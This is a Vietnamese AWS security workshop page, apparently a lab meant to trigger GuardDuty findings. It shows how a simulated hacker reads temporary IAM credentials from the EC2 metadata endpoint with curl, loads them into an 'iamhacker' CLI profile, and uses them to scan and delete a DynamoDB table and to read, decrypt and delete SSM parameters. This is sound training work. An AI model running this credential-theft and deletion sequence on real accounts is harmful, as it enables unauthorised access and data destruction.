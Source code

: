 ```yaml
---
title : "Create Findings"
date :  2025-06-11
weight : 2 
chapter : false
pre : " <b> 3.3. </b> "
---
```

### Tình huống 3: 
Bạn Long vừa nhận ra các cuộc tấn công vừa rồi là các cuộc tấn công giả lập, các Findings được tự động tạo ra từ CloudFormation Template để xem xét khả năng bảo mật của Security Hub và GuardDuty. Tuy nhiên rủi ro bảo mật vẫn còn có, một hacker tên Bảo đã tiến hành truy xuất thành công IAM security credential tạm thời được sinh ra bởi IAM role thuộc EC2 instance. Vậy hacker này đã tiến hành truy xuất ra sao?

**Truy xuất IAM security credential tạm thời với Systems Manager**

Để tiến hành cuộc tấn công cuối cùng này, Bảo cần phải truy xuất thành công IAM security credential tạm thời được sinh ra bởi IAM role thuộc EC2 instance. Bảo có thể thử 1 trong 2 cách sau:
1. Truy cập SSH vào EC2 instance và tiến hành truy vấn dữ liệu Metadata của EC2 instance.
2. Sử dụng chức năng Session Manager của dịch vụ AWS System Manager.

> Chúng ta sẽ tiến hành tạo các Findings 
1. Truy cập vào Session Manager ở ap-southeast-1.
![create findings](/images/3.attack/3.3/1.png)
2. Ở thanh điều hướng bên tay phải, chọn tiếp tục Start Session
![create findings](/images/3.attack/3.3/2.png)
3. Ở mục **Target instances** chúng ta sẽ thấy một managed EC2 instance với định dạng tên như sau - **GuardDuty-Example: Compromised Instance: Scenario 3** với trạng thái SSM Agent ping status là Online.
4. Chọn instance **GuardDuty-Example: Compromised Instance: Scenario 3** và ấn **Start session**
![create findings](/images/3.attack/3.3/3.png)
5. Thực hiện câu lệnh truy vấn dữ liệu Metadata:

         curl http://169.254.169.254/latest/meta-data/iam/security-credentials/GuardDuty-Example-EC2-Compromised

6. Mở notepad, tiến hành ghi chú một số thông tin quan trọng sau:
- Access Key ID
- Secret Access Key
- Session Token
![create findings](/images/3.attack/3.3/4.png)

### Tạo AWS CLI Profile trên máy tính cá nhân
Sau khi thành công truy xuất IAM security credential tạm thời, chúng ta sẽ tiến hành tạo một AWS CLI Profile trên máy tính cá nhân. Từ Terminal/CMD/PowerShell, chúng ta tiến hành thay thế các <PLACEHOLDER> với giá trị cụ thể đã thu thập, sau đó thực hiện nhập các lệnh sau:

      aws configure set profile.iamhacker.region ap-southeast-1
      aws configure set profile.iamhacker.aws_access_key_id <ACCESS_KEY_ID>
      aws configure set profile.iamhacker.aws_secret_access_key <SECRET_ACCESS_KEY>
      aws configure set profile.iamhacker.aws_session_token <SESSION_TOKEN>

Chúng ta có thể sử dụng câu lệnh sau để tiến hành kiểm tra nhanh xem đã có AWS CLI Profile tên là **iamhacker** hay chưa.
      
      aws configure --profile iamhacker

![create findings](/images/3.attack/3.4/1.png)

#### Thực hiện câu lệnh AWS CLI bằng IAM security credential tạm thời
Bằng các câu lệnh AWS CLI dưới đây, chúng ta tiến hành thực hiện gọi API đến những dịch vụ AWS khác nhau.

**IAM user có bất kỳ quyền hạn nào?**
      
      aws iam get-user --profile iamhacker
      aws iam create-user --user-name BuiChiBao --profile iamhacker

![create findings](/images/3.attack/3.4/2.png)
> Như vậy IAM user không thể get-user cũng như create-user

**Liệu có quyền truy cập đến DynamoDB?**

      aws dynamodb list-tables --profile iamhacker
      aws dynamodb describe-table --table-name GuardDuty-Example-Customer-DB --profile iamhacker

![create findings](/images/3.attack/3.4/3.png)
![create findings](/images/3.attack/3.4/4.png)
**Liệu có quyền truy vấn dữ liệu đến DynamoDB?**

      aws dynamodb scan --table-name GuardDuty-Example-Customer-DB --profile iamhacker
      aws dynamodb delete-table --table-name GuardDuty-Example-Customer-DB --profile iamhacker
      aws dynamodb list-tables --profile iamhacker

![create findings](/images/3.attack/3.4/5.png)
![create findings](/images/3.attack/3.4/6.png)

> Như vậy hacker có quyền truy cập và truy vấn dữ liệu đến DynamoDB

**Liệu có thể truy cập đến System Manager Parameter Store?**

      aws ssm describe-parameters --profile iamhacker
      aws ssm get-parameters --names "gd_prod_dbpwd_sample" --profile iamhacker
      aws ssm get-parameters --names "gd_prod_dbpwd_sample" --with-decryption --profile iamhacker
      aws ssm delete-parameter --name "gd_prod_dbpwd_sample" --profile iamhacker

![create findings](/images/3.attack/3.4/7.png)
> Như vậy hacker có quyền truy cập đến System Manager Parameter Store
